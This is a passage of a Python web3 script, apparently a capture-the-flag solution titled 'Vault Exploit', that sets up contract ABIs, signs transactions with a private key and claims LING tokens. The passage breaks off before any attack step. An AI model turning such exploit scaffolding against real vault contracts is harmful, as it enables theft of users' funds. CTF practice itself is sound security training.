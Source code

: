 ```python
    {"inputs":[],"name":"vault","outputs":[{"internalType":"contract Vault","name":"","type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"ling","outputs":[{"internalType":"contract LING","name":"","type":"address"}],"stateMutability":"view","type":"function"}
]''')

VAULT_ABI = json.loads('''[
    {"inputs":[{"internalType":"uint256","name":"assets","type":"uint256"},{"internalType":"address","name":"receiver","type":"address"}],"name":"deposit","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"borrowAssets","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"repayAssets","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[],"name":"totalAssets","outputs":[{"internalType":"uint256","name":"totalManagedAssets","type":"uint256"}],"stateMutability":"view","type":"function"}
]''')

LING_ABI = json.loads('''[
    {"inputs":[{"internalType":"address","name":"spender","type":"address"},{"internalType":"uint256","name":"amount","type":"uint256"}],"name":"approve","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"address","name":"account","type":"address"}],"name":"balanceOf","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}
]''')

# --- Web3 Setup ---
w3 = Web3(Web3.HTTPProvider(RPC_URL))
account = w3.eth.account.from_key(PRIVATE_KEY)
w3.eth.default_account = account.address

def send_tx(tx_func):
    """Builds, signs and sends a transaction."""
    tx = tx_func.build_transaction({
        'from': account.address,
        'nonce': w3.eth.get_transaction_count(account.address),
        'gas': 1000000,
        'gasPrice': w3.eth.gas_price
    })
    signed_tx = w3.eth.account.sign_transaction(tx, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash, timeout=120)
    return receipt

def main():
    print("\n[+] Blockchain CTF - Vault Exploit")
    print("=" * 50)
    
    # Load contracts
    setup_contract = w3.eth.contract(address=SETUP_CONTRACT_ADDRESS, abi=SETUP_ABI)
    vault_address = setup_contract.functions.vault().call()
    ling_address = setup_contract.functions.ling().call()
    vault_contract = w3.eth.contract(address=vault_address, abi=VAULT_ABI)
    ling_contract = w3.eth.contract(address=ling_address, abi=LING_ABI)
    
    print(f"Vault: {vault_address}")
    print(f"LING: {ling_address}")
    print(f"Player: {account.address}")
    
    # Step 1: Get tokens
    print("\n[1] Claiming LING tokens...")
    send_tx(setup_contract.functions.claim())
```